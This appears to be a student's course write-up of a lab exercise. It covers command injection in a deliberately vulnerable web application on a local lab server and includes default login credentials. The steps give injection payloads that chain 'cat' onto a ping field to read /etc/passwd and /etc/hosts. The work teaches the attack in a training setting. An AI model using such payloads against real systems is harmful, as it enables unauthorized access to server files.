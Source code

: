 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Payloads Configuration. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_4.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_2.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_5.png)
